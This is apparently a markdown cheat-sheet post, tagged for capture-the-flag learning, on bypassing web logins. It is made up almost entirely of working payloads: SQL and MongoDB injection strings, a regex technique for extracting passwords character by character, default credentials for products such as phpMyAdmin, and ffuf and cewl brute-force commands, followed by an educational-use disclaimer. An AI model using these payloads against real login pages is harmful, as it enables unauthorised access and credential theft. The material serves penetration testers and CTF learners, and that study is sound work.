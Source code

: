 ```yaml
---
title: WEB LOGIN BYPASS
date: 2023-05-05 01:35:40 +/-TTTT
categories: [learning, web]
tags: [ctf]     # TAG names should always be lowercase
---
```


# SQL INJECTION     
```
admin' or '1'='1
```
# Microsoft, Oracle, PostgreSQL
```
admin'--
admin' or 1=1--
admin' or '1'='1'--

admin}" or 1=1--
```
# MySQL
```
admin'-- -
admin'#

admin' or 1=1#
admin' or 1=1-- -

admin' or '1'='1'-- -
admin' or '1'='1'#

admin}" or 1=1-- -
```
# NoSQL Injection
`MONGO`
```
admin' || 1==1//
admin' || 1==1%00
admin' || '1==1
admin' || '1'=='1
```
* Operators

```js
# $ne: Not equal
username[$ne]=xyz&password[$ne]=xyz

# $regex: Regular expressions
username[$regex]=.*&password[$regex]=.*
username[$regex]=^xyz&password[$regex]=^xyz
username[$regex]=^a.*$&password[$ne]=xyz
username[$regex]=.{6}&password[$ne]=xyz
username[$regex]=^.{1}&password[$regex]=^.{1} # Length of values

# $exists: Exists in the database
username[$exists]=true&password[$exists]=true

# $nin: Not include
username[$nin][admin]=admin&password[$ne]=xyz
# If we found the "admin" exists, we can exclude "admin" by specifying $nin operator.
username[$nin][]=admin&password[$ne]=xyz
# If more users are found, we can exclude the user.
username[$nin][]=admin&username[$nin][]=john&password[$ne]=xyz

# $gt: Greater than
username[$gt]=s&password[$gt]=s
# $lt: Lower than
username[$lt]=s&password[$lt]=s

# Combinations
username[$ne]=xyz&password[$regex]=.*
username[$exists]=true&password[$ne]=xyz
username[$ne]=xyz&password[$exists]=true
username[$regex]=.*&password[$ne]=xyz
username[$ne]=xyz&password[$regex]=.*
username[$regex]=.{6}&password[$ne]=xyz
```

After finding usernames, we can also obtain the passwords using the “$regex” operator as the following example.

```js
# Check if the password length is 7 characters.
username=admin&password[$regex]=^.{7}$
# If not, change 7 to 6 (or 8 or something number).
username=admin&password[$regex]=^.{6}$
# If the number of characters turns out to be 6, brute force the character one by one.
username=admin&password[$regex]=^a.....$
username=admin&password[$regex]=^s.....$
username=admin&password[$regex]=^se....$
username=admin&password[$regex]=^sec...$
```
* Operators in Json

If the above payloads not working, try changing to a json format.
We also need to change the value of the Content-Type to “application/json” in the HTTP header.

```js
Content-Type: application/json

{"username": { "$ne": "xyz" }, "password": { "$ne": "xyz" }}
```
# Default Credentials
```
admin:admin
admin:password
admin:password1
admin:password123
administrator:password
administrator:password1
administrator:password123

# phpIPAM
admin:ipamadmin
Admin:ipamadmin

# PHPMyAdmin
root:(null)
root:password
```
# Wildcard Brute Force
If it is allowed to login with wildcard (*), you may be able to find the username/password with brute force.
```
username = *
password = *
```
For example, in Turbo Intruder (Burp Suite), login attempt with alpha numeric characters one by one.
```
username=%s*&password=*
# or
username=*&password=%s*
```
My favorite wordlist for it is the seclists:

* https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt

# Brute Force Credentials
Before brute forcing, we need wordlists used for it.

* Rockyou : https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz

* SecLists : https://github.com/danielmiessler/SecLists 

* CeWL : https://github.com/digininja/CeWL

Generate the custom wordlist from the target web page.
```
cewl https://vulnerable.com > scraped_words.txt
```
# Ffuf
```js
# -fc: Filter HTTP status code
ffuf -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401

# Basic Auth
ffuf -u https://admin:FUZZ@example.com/ -w wordlist.txt -fc 401
```
# REFERENCE
* https://tryhackme.com/room/nosqlinjectiontutorial

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```
